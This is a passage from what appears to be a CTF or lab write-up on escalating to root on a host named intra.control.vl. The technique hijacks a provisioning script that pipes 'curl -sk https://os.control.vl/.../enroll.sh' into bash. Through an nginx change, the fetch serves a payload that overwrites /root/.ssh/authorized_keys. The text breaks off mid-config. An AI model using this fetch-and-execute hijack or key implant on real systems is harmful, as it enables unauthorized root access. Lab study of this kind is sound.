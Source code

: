 Now if if we check which files exist in ```/opt/provision/modules``` (still thanks to osctrl), we can find this script (```prov_osqd```) :

```bash
#!/usr/bin/bash
if  ; then
  echo "Missing options." >&2
  exit 42
fi
curl -sk https://os.control.vl/${1}/${2}/enroll.sh | bash
```
This script is reaching a file taking as url ```os.control.vl/our two arguments/enroll.sh``` and is executing ```enroll.sh```

So, since we are root on ```os.control.vl```, we can just modify nginx config files to control where the enroll.sh will be reach by the script ```/opt/provision/modules/prov_osqd``` on ```intra.control.vl```

First, create 2 directory, they will be our arguments, so the curl command will be something like : ```curl -sk https://os.control.vl/directory_1/directory_2/enroll.sh | bash```

## Finally Root

```bash
mkdir -p /var/www/toto/tata

# modify enroll.sh and add our public key in '/root/.ssh/authorized_keys'
cat enroll.sh
#!/bin/bash

echo "ssh-...+dQQ== root@exegol-vl" > /root/.ssh/authorized_keys
```
I tried to modify a lot of nginx configuration files but i don't know for what reason (probably skill issue lol) it didn't work so i finally modified ```/etc/nginx/sites-enabled/tls.conf``` like that :

```console
server {
    listen 443 ssl default deferred;

    ssl_certificate /etc/nginx/certs/osctrl.crt;
    ssl_certificate_key /etc/nginx/certs/osctrl.key;

    # Improve HTTPS performance with session resumption
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 5m;

    # Enable server-side protection against BEAST attacks
    ssl_prefer_server_ciphers on;
    ssl_ciphers ECDH+AESGCM:ECDH+AES256:ECDH+AES128:DH+3DES:!ADH:!AECDH:!MD5;

    # Disable SSLv3
    ssl_protocols TLSv1.2 TLSv1.3;

    # Diffie-Hellman parameter for DHE ciphersuites
    # $ sudo openssl dhparam -out /etc/ssl/certs/dhparam.pem 4096
    ssl_dhparam /etc/nginx/certs/dhparam.pem;

    # Enable OCSP stapling (http://blog.mozilla.org/security/2013/07/29/ocsp-stapling-in-firefox)
    ssl_stapling on;
    ssl_stapling_verify on;
    ssl_trusted_certificate /etc/nginx/certs/osctrl.crt;
    resolver 1.1.1.1 8.8.8.8 valid=300s;
    resolver_timeout 5s;

```